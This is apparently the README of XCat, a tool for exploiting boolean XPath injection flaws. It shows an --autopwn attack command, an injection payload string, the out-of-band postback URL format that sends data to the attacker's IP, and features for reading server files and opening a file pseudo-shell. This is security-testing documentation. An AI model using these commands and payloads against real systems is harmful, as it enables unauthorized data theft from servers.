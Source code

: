 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only dependency is [Twisted](http://www.twistedmatrix.com))
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The simplest command you can run on this site is:

`python xcat.py --true "Book found" --arg "title=Bible" --method POST --autopwn http://localhost:80`

You have to specify a condition keyword or HTTP status code (true, false, error), an argument for the attack to be appended to and a HTTP method to use.
The --autopwn flag will make xcat automatically detect more exotic features (xpath version, quote character and various out of bound attacks):
```XCat version 0.7
  * Automatically detecting available features...
    * Detecting quote: "
    * XPath Version: 2
    * OOB HTTP Support:
      * 10.10.10.132:80: Success
    * Entity Injection Retrieval: Supported
 Exploiting...```

Usage
-----
    usage: xcat.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
                   [--true TRUE_KEYWORD | --false FALSE_KEYWORD | --error ERROR_KEYWORD]
                   [--true-code TRUE_CODE | --false-code FAIL_CODE | --error-code ERROR_CODE]
                   [--autopwn] [--schema-only] [--quotecharacter QUOTE_CHARACTER]
                   [--executequery EXECUTEQUERY] [--max_search SEARCH_LIMIT]
                   [--timeout TIMEOUT] [--stepsize STEP_SIZE]
                   [--normalize {NFD,NFC,NFDK,NFKC}] [--xversion {1,2,auto}]
                   [--lowercase] [--regex] [--connectback CONNECTBACK]
                   [--notfoundstring NOTFOUNDCHAR] [--fileshell] [--getcwd]
                   [--useragent USER_AGENT] [--timeit] [--ignorecomments]
                   [--codepointstart CODEPOINTSTART]
                   URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application) to try out XCat with the provided example application.

Altering the payload
--------
XCat will use a set of payloads to retrieve the target document. By default the payload is tacked onto the end of the --arg argument (the actual POST/GET parameters sent to the server). This will work for simple AND based injection vulnerabilities, but if you need more control then you can wrap the payload XCat generates into your own. This is simple to do - simply include a {0} in the --arg argument to have XCat insert its payload there. For example the injection might require an OR instead of an AND, using --arg "username=x' or ('1'='1{0}') or '1'='1" will work as the payload generated by xcat will replace the {0}.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
